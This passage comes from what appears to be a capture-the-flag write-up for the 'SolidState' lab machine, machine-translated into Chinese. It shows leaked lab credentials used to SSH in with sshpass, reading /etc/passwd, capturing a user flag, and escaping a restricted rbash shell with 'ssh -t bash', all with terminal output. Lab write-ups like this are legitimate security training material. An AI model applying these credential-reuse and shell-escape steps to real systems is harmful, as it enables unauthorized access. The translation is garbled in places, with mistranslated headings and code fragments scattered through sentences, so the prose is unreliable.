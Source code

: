     username: mindy
    pass: P@55W0rd1!2@
    
    Respectfully,
    James
    
    .
    

邮件管理员，尽管用户名多汁，但没有任何电子邮件。

### SSH作为心灵

我可以使用电子邮件中的信条通过SSH进行连接：

    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
    Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Wed Apr 29 21:12:15 2020 from 10.10.14.47
    mindy@solidstate:~$
    

正如电子邮件所建议的，外壳是有限的：

    mindy@solidstate:~$ whoami
    -rbash: whoami: command not found
    mindy@solidstate:~$ id
    -rbash: id: command not found
    

`/etc/passwd`表明明迪的外壳是：`rbash`

    mindy@solidstate:~$ cat /etc/passwd
    ...[snip]...
    mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash
    

即使在，我也可以抓住：`rbash``user.txt`

    mindy@solidstate:~$ ls
    bin  user.txt
    mindy@solidstate:~$ cat user.txt 
    914d0a4e************************
    

## 巴什逃生

### 快速方法

当我面对SSH时，我尝试的第一件事是添加到SSH连接命令中。这将在连接而不是分配的 shell 上运行。它在这里工作（尽管它确实产生了一个破坏的提示），我现在运行和：`rbash``-t bash``bash``id``cd`

    root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 -t bash
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
    uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd /
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
    